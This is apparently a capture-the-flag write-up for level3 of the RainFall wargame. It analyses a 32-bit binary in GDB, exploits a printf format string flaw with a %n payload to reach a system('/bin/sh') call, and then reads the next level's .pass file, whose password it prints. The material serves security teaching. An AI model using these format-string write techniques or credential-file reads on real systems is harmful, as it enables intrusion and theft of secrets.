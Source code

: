 # level3

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Take a look at `main`, nothing tremendous. It calls `v`:

```gdb
gdb-peda$ disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218                   ; 536 bytes of stack space reclaimed
   0x080484ad <+9>:     mov    eax,ds:0x8049860            ; eax = stdin
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax     ; push stdin to stack
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200   ; push 512 to stack
   0x080484be <+26>:    lea    eax,[ebp-0x208]             ; load buffer address in eax
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>       ; call fgets
   0x080484cc <+40>:    lea    eax,[ebp-0x208]             ; load buffer address in eax
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>      ; call printf
   0x080484da <+54>:    mov    eax,ds:0x804988c            ; eax = data segment variable (that equals 0 here)
   0x080484df <+59>:    cmp    eax,0x40                    ; compare eax to 0x40 (64 in decimal)
   0x080484e2 <+62>:    jne    0x8048518 <v+116>           ; jump to leave instruction if not equal
   0x080484e4 <+64>:    mov    eax,ds:0x8049880            ; eax = stdout
   0x080484e9 <+69>:    mov    edx,eax                     ; edx = eax
   0x080484eb <+71>:    mov    eax,0x8048600               ; eax = 0x8048600 (contains "Wait what?!\n")
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx     ; push edx to stack
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc     ; push 12 to stack
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1     ; push 1 to stack
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax         ; push eax to stack (arg[0])
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>      ; call fwrite
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d   ; push address 0x804860d (contains "/bin/sh") to stack
   0x08048513 <+111>:   call   0x80483c0 <system@plt>      ; call system
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

We notice numerous calls: `fgets`, `printf`. `fwrite` and `system`. Also, a conditionnal jumps seems to lead to the end
of the function without executing `fwrite` and `system`.

We look at the content of the address `0x804860d` (do `x/s 0x804860d` command in gdb) pushed on the stack before the
call to `system`, which is the string `"/bin/sh"`.

So we know that we don't have to jump after the `0x080484df <+59>:    cmp    eax,0x40` instruction to reach this
`system` call.

Since `fgets` protects from a buffer overflow attack, we look for `printf` vulnerabilities, and find [this
document](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) (also attached in
'Ressources' directory) about the format string one.

This will allow us to write the value `0x40` (64 in decimal) in the address `0x804988c` which is copied to `eax` before
the `cmp eax,0x40` instruction. Here is how to proceed.

## Exploit

First of all, we inject as many `%x` conversion as needed to make printf move forward through the stack and reach the
address where the string we have provided is stored.

```console
level3@RainFall:~$ perl -e 'print "AAAA %08x %08x %08x %08x\n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 | ./level3
AAAA 00000200 b7fd1ac0 b7ff37d0 41414141
```

Here we have read the first 16 bytes of the stack, and we know that the 4th argument converted by `printf` is the
address of the supplied string (`AAAA` => `41414141`).

We can now use the `%n` conversion which prints the number of characters written so far by `printf` to write the value
64 in the address `0x804988c`.

To do so, we need to know how long our string is, then add extra characters to reach 64 bytes before the `%n`.

Let's format the string with the address `0x804988c` and the conversions needed. We use gdb to see what value is written at this address.

```console
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%x%x%x%n"' > /tmp/level3
level3@RainFall:~$ gdb ./level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
gdb-peda$ b *0x080484df
Breakpoint 1 at 0x80484df
gdb-peda$ run < /tmp/level3
Breakpoint 1, 0x080484df in v ()
gdb-peda$ x/s $eax
0x17:	 <Address 0x17 out of bounds>
```
The exploit has worked, the value written is 0x17, or 23 in decimal. Since we want to write 64, we'll add 41 extra characters to our string.

```console
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%x%x%x%n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 - | ./level3
...
[hit return, some garbage display]
...
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
